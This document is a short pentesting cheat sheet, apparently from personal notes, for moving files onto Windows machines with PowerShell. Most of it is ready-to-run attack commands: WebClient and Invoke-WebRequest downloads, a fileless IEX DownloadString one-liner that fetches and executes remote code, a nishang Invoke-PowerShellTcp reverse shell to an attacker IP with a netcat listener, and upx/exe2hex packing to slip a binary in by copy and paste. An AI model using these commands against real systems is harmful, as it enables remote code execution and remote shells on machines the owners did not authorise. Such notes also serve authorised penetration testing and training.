 # Downloading files using Powershell

```bash
# If this doesn't work, try changing quotes:
powershell -c "(new-object System.Net.WebClient).DownloadFile('$URLOFTHEFILE','$DESTINATIONPATH')"
```

_____

```bash
# If this doesn't work, try changing quotes:
powershell.exe (New-Object System.Net.WebClient).DownloadFile('$URLOFFILE', '$NEWFILENAME')
```
_____

```bash
powershell
Invoke-WebRequest http://XX:XX/XX -OutFile C:\\temp\\XX
```

_____

If we want to download and execute the same file but not saving it to the disk, use:

```bash
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('$URLOFFILE')
```

_____

**Note**: If needed to execute a reverse shell we can use the nishang's reverse powershell as the file to server above:

```bash
#File:
/opt/nishang/Shells/Invoke-PowerShellTcp.ps1

nano Invoke-PowerShellTcp.ps1

#Add the following line at the end of the file:
Invoke-PowerShellTcp -Reverse -IPAddress $IPADDRESS -Port $PORT

#Setup a netcat listener and use the one-liner to execute the reverse shell:
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://xx:xx/Invoke-PowerShellTcp.ps1')
```

_____

## Using exe2hex & powershell

First of all, optimize the file we want to transfer by using upx:

```bash
upx -9 $FILE
```

Now use exe2hex to convert the file:

```bash
exe2hex -x $FILE -p $RESULTFILENAME.cmd
#This creates a script with .cmd extension
```

Now we only need to copy and paste the script into a Windows shell.
